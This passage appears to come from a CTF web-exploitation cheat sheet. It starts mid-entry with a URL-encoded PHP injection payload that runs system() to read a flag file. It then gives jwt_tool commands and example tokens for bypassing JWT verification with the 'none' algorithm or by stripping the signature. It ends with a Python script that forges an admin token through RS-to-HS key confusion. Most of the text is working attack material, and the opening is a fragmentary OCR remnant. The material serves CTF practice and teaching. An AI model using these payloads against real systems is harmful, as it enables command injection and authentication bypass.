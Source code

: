Alternative: `%E3%83%BD(%23%60%D0%94%C2%B4)%EF%BE%89[0/*]=1*/]);system("cat%20/flag_de42537a7dd854f4ce27234a103d4362");/*`.

##### Resources:
> - [https://github.com/Seraphin-/ctf/blob/master/bamboofox_2021/face.md](https://github.com/Seraphin-/ctf/blob/master/bamboofox_2021/face.md)
- [https://spotless.tech/bambooctf-2021-angryface-php.html](https://spotless.tech/bambooctf-2021-angryface-php.html)


## JWT bypass using None algorithm
Using [https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool).

Step:
- Tamper the JWT

  ```bash
  $ python3 jwt_tool.py jwt -T
  ```

- Use None algorithm

  ```bash
  python3 jwt_tool.py jwt -Xa (using none algorithm)
  ```

- ALTERNATIVE: remove the signature

  ```
  Example:
  eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6ImEiLCJpYXQiOiIxNjExMjAxNDQyIn0.NWU2MWNiMjg0YWU3NDM0ZDFmYjYwNTYyY2RmNzNkMzM4NDdhZDE4YTUxZjYwZmI3NTI3Y2Y5YjNiYjMyMzlhOA

  Remove the signature:
  eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6ImEiLCJpYXQiOiIxNjExMjAxNDQyIn0.
  ```

##### Resources:
> - [https://auth0.com/blog/2015/03/31/critical-vulnerabilities-in-json-web-token-libraries/](https://auth0.com/blog/2015/03/31/critical-vulnerabilities-in-json-web-token-libraries/)


## JWT bypass with public key 
Using python:

```python
import hmac
import base64
import hashlib

f = open("public.pem")
key = f.read()
# RS -> HS and login -> admin
str="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9Cg.eyJsb2dpbiI6ImFkbWluIn0K"

sig = base64.urlsafe_b64encode(hmac.new(key,str,hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

print(str+"."+sig)
```
